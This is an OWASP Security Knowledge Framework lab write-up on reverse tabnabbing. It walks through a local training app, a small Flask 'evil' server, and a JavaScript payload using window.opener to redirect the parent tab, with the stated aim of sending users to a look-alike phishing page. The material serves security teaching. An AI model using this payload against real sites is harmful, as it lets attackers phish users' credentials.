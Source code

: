 # KBID 266 - Tabnabbing

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:tabnabbing
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:tabnabbing
```

{% hint style="success" %}
Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to defev!](.gitbook/assets/logo.defdev.1608z.whtonblk.256.png)

## Reconnaissance

Basically every application that opens a link to a "\_blank" page is interesting to investigate.

```markup
<a href="example.com" taget="_blank">Follow this link</a>
```

Let's assume that the domain in the link of the following demo is under our control as a malicious attacker. When we click on the link 'Tab me" we find that a new page is opened on another browser tab. This is exactly the behaviour we are looking for!

![](.gitbook/assets/tab1%20%281%29.png)

If we were now to inspect the browsers source code of the target application, our assumptions are validated. We can perform a reverse tabnabbing phishing attack!

![](.gitbook/assets/code.png)

## Exploitation

### Step1

Now it is time to start our evil application to be able to serve our malicious script. We can easily achieve this by starting our own simple python flask app that could look like this:

```python
from flask import Flask, request, url_for, render_template, redirect


app = Flask(__name__, static_url_path='/static', static_folder='static')
app.config['DEBUG'] = True

@app.route("/")
def start():
    return render_template("evil.html")

if __name__ == "__main__":
    app.run(host='0.0.0.0', port=1337)
```

Save the snippet above to &gt; app.py and run the commands below to install some dependencies.

```text
$ pip install flask
$ pip install request
$ python appname.py
```

Of course you can also run your app on whatever service you want it does not have to be python flask.

### Step2

Now that the service is running we want to serve the malicious piece of javascript that is responsible for redirecting the parent tab to a new location. Below is what happens under the hood:

![](.gitbook/assets/tabnabbing_overview_with_link-1.png)

Now, let's add the following piece of javascript to the evil webserver we just created.

```javascript
<script>
    window.opener.location.replace("https://www.securityknowledgeframework.org")
</script>
```

### Step3

Now, after serving the evil web application open the target application and click on the link with the domain that is under our control. Notice how the parent tab immediately redirect itself to the web page of the security knowledge framework?

![](.gitbook/assets/tab2.png)

A visitor of an application that follows the link will be unexpectedly redirected to a phishing application. This evil application could look identical to the original application i.e. ask for the users credentials because his "session expired".

## Additional sources

[https://www.owasp.org/index.php/Reverse\_Tabnabbing](https://www.owasp.org/index.php/Reverse_Tabnabbing)

